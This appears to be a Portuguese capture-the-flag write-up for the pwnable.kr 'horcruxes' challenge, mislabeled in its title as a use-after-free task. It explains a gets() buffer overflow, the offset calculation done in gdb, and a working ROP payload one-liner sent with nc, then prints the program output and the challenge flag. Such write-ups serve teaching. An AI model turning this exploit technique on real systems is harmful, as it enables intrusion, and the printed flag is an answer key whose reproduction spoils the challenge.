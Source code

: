 # Duckware Team - uaf (pwnable)
###### Solved by @Antonio-alexandre

> This CTF is about pwn, rop,

## Desafio: uaf (Pwn, Use After Free)
#### Introdução

A lógica que o código adota é: uma história baseada em Harry Potter, onde o jogador precisa 'derrotar' o Voldemort. Para isso, o sistema pergunta a quantidade de pontos de experiência que foram coletados após colectar cada Horcrux. Caso o jogador não tenha coletado todas, ele não possuirá pontos de experiência suficientes para enfrentar Voldemort.

- [Página do desafio](http://pwnable.kr/play.php)

#### Análise Inicial

A princípio, nos deparamos com a seguinte descrição: 

> Voldemort escondeu sua alma dividida dentro de 7 horcruxes.
Encontre todas as horcruxes e ROP!
Autor: Jiwon Choi

Além do seguinte código para conectar ao servidor:

`ssh horcruxes@pwnable.kr -p2222 (pw:guest)` 

#### Solução

Assim que conectamos ao servidor, nos deparamos com a seguinte tela:

[![Imagem21.png](https://i.postimg.cc/P54GKkK2/Imagem21.png)](https://postimg.cc/LJn06wc1)

Dentro do servidor, há dois arquivos:

`horcruxes` `readme`

Ao executar `cat readme`, ele nos retorna a seguinte mensagem:

[![Imagem22.png](https://i.postimg.cc/Px00Nfrr/Imagem22.png)](https://postimg.cc/N97dzcHW)

Ao tentar executar o horcruxes, ele nos retorna a seguinte tela:

[![Imagem23.png](https://i.postimg.cc/L4ZrwPNq/Imagem23.png)](https://postimg.cc/CdSPfRyY)

Nesse caso não temos informação alguma. Uma técnica que podemos utilizar é o comando `scp` para baixar os arquivos diretamente do servidor. Para isso, a sintaxe ficará assim:

`scp -r -P2222 horcruxes@pwnable.kr:~/ ./`

Feito isso, iremos abrir o código no `Ghidra` para analisar os binários:

Com o código aberto, identificamos três pontos cruciais:

> A `main` limita certos `syscalls`:

[![Imagem24.png](https://i.postimg.cc/ncGwfG7L/Imagem24.png)](https://postimg.cc/1f4Kp6vx)

> A função `init_ABCDEFG` gera sete números de A-G aleatoriamente:

[![Imagem25.png](https://i.postimg.cc/SxZTJQgF/Imagem25.png)](https://postimg.cc/sMh9LzFw)

> A função `ropme` permite adivinhar um número e chama a função `gets()`, onde nos deparamos com um `bof(Buffer Overflow)`

[![Imagem26.png](https://i.postimg.cc/R06Rh73K/Imagem26.png)](https://postimg.cc/cKWY58BL)

Como o nosso objetivo é explorar o `bof`, precisaremos executar a função `init_ABCDEFG` para gerar os números aleatórios.

O primeiro passo é executar o `gdb` em `horcruxes`, e executar `disas ropme`.

[![Imagem27.png](https://i.postimg.cc/rFw5z13s/Imagem27.png)](https://postimg.cc/DmRSMX23)

Após isso, criamos um breakpoint em `0x080a00e8` e obtemos o endereço de `eax` utilizando o comando `x $eax`.

Obtemos então o endereço: `0xffffdb54`

Após isso, criamos um breakpoint na última chamada (`0x080a0176`). Assim, obtemos o endereço de `esp`: `0xffffdbcc`.

Ao realizar o cálculo, obtemos 120 bytes de lixo entre eles. Ou seja, para que consigamos obter os endereços das `funções A-G` e o endereço do `jmp ropme` dentro da `main`, precisamos enviar esses 120 bytes.

Utilizamos então esse comando para extrair os endereços:

Combinando tudo, e convertendo para little-endian, utilizaremos o seguinte comando:

```
(echo 15; (for i in {1…120}; do printf %s 49; done;) | xxd -r -p; 
echo 4bfe09086afe090889fe0908a8fe0908c7fe0908e6fe090805ff0908fcff0908 0a | xxd -r -p; cat) | nc 0 9032 -q 1
```

Ele nos retorna o seguinte:

```
Voldemort concealed his splitted soul inside 7 horcruxes.
Find all horcruxes, and destroy it!

Select Menu:How many EXP did you earned? : You’d better get more experience to kill Voldemort
You found “Tom Riddle’s Diary” (EXP +471258802)
You found “Marvolo Gaunt’s Ring” (EXP ±1275143031)
You found “Helga Hufflepuff’s Cup” (EXP +845677748)
You found “Salazar Slytherin’s Locket” (EXP +194777572)
You found “Rowena Ravenclaw’s Diadem” (EXP +695561867)
You found “Nagini the Snake” (EXP ±1098361773)
You found “Harry Potter” (EXP +401832873)
Select Menu:235604058
How many EXP did you earned? : 235604058
```

Assim então, temos acesso a `flag`:

>`Magic_spell_1s_4vad4_K3daVr4!`
 
